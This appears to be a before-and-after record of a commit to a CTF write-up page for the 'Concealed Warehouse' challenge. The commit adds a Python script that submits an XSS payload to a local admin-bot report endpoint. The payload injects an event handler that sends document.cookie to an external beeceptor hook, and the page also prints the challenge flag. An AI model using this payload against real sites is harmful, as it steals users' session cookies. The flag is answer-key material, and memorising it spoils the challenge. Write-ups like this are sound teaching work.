

Before and after one commit to Yxene/yxene.github.io, an MkDocs documentation site: the page built from docs/my-challenges/polypwn-2026/concealed-warehouse/solution/README.md, in a window 1280 px wide and 900 px high, scrolled down 3854 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4312 px from its top, so only the background shows below that.

Commit message:
Add script in WU for Concealed Warehouse

````diff
--- a/docs/my-challenges/polypwn-2026/concealed-warehouse/solution/README.md
+++ b/docs/my-challenges/polypwn-2026/concealed-warehouse/solution/README.md
@@ -143,6 +143,26 @@ Once the admin bot visits the page, the cookies (containing the flag) are sent t
 
 ---
 
+## Script
+
+[Downloadable here !](xss.py)
+
+```python
+import requests
+import urllib.parse
+
+BASE_URL = "http://127.0.0.1:5000"
+HOOK = urllib.parse.quote_plus("https://6b6fcc5f1869ffc9.free.beeceptor.com/?c=")
+
+def main():
+	report_url = f"{BASE_URL}/report"
+	payload = f'{BASE_URL}/inventory?warehouse=%22+oncontentvisibilityautostatechange%3dfetch(%22{HOOK}%22%2bdocument.cookie)+style%3d%22content-visibility%3aauto'
+	r = requests.post(report_url, data={"url": payload})
+
+if __name__ == '__main__':
+	main()
+```
+
 ## Flag
 
 `polycyber{H1dd3n_X55_F0und_rQ45e4bK}`
````
Also changed, not shown: docs/my-challenges/polypwn-2026/concealed-warehouse/solution/xss.py (renamed from docs/my-challenges/polypwn-2026/concealed-warehouse/solution/script.py).
